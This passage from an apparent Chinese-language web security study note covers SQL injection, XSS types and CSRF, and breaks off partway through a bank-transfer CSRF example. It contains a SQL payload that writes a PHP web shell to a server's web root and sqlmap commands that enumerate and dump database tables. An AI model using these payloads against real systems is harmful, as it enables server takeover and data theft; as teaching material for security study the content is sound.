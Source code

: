 - **示例**：

  ```sql
  SELECT "<?php @eval($_POST['cmd']);?>" INTO OUTFILE '/var/www/html/shell.php';
  ```

#### SQLMap使用

自动化检测SQL注入（`sqlmap -u "http://example.com?id=1"`）。

查表：sqlmap -u /?id=1 -current-db

查表：sqlmap -u /?id=1 -D security -tables

查列：sqlmap -u /?id=1 -D security -T users -columns

查字段： sqlmap -u /?id=1 -D security -T users -C flag -dump



### XSS

1. 反射型（非持久化）：反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器。也就是说，黑客往往需要诱使用户点击一个恶意链接，才能攻击成功
2. 存储型（持久化）：用户提交的数据会被存储在后端（不管是数据库、内存还是文件系统等），当攻击者提交的包含有 XSS 攻击的代码被存储在后端中，其他用户访问该页面的时候，后端会将数据取出来显示在页面上，这时候用户就会受到 XSS 攻击
3. Dom-based 型：客户端的脚本程序可以动态地检查和修改页面内容，而不依赖于服务器端的数据。例如客户端如从 URL 中提取数据并在本地执行，如果用户在客户端输入的数据包含了恶意的 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到 DOM-based XSS 攻击。需要特别注意以下的用户输入源 document.URL、location.hash、location.search、document.referrer 等。



### CSRF 攻击

CSRF 是跨站请求伪造攻击 一般来说，攻击者通过伪造用户的浏览器的请求，向访问一个用户自己曾经认证访问过的网站发送出去，使目标网站接收并误以为是用户的真实操作而去执行命令。常用于盗取账号、转账、发送虚假消息等。攻击者利用网站对请求的验证漏洞而实现这样的攻击行为，网站能够确认请求来源于用户的浏览器，却不能验证请求是否源于用户的真实意愿下的操作行为。

![file](https://blog.hz2016.com/wp-content/uploads/2022/03/image-1646807706774.png)

其中 Web A 为存在 CSRF 漏洞的网站，Web B 为攻击者构建的恶意网站，User C 为 Web A 网站的合法用户。

#### CSRF 攻击原理：

1. 用户 C 打开浏览器，访问受信任网站 A，输入用户名和密码请求登录网站 A
2. 在用户信息通过验证后，网站 A 产生 Cookie 信息并返回给浏览器，此时用户登录网站 A 成功，可以正常发送请求到网站 A
3. 用户未退出网站 A 之前，在同一浏览器中，打开一个 TAB 页访问网站 B
4. 网站 B 接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点 A
5. 浏览器在接收到这些攻击性代码后，根据网站 B 的请求，在用户不知情的情况下携带 Cookie 信息，向网站 A 发出请求。网站 A 并不知道该请求其实是由 B 发起的，所以会根据用户 C 的 Cookie 信息以 C 的权限处理该请求，导致来自网站 B 的恶意代码被执行。

#### 攻击范例

假设某银行网站 A 以 GET 请求来发起转账操作，转账的地址为

```markup
www.xxx.com/transfer.do?accountNum=l000l&money=10000
```

参数 accountNum 表示转账的账户，参数 money 表示转账金额。 而某大型论坛 B 上，一个恶意用户上传了一张图片，而图片的地址栏中填的并不是图片的地址，而是前而所说的砖账地址：
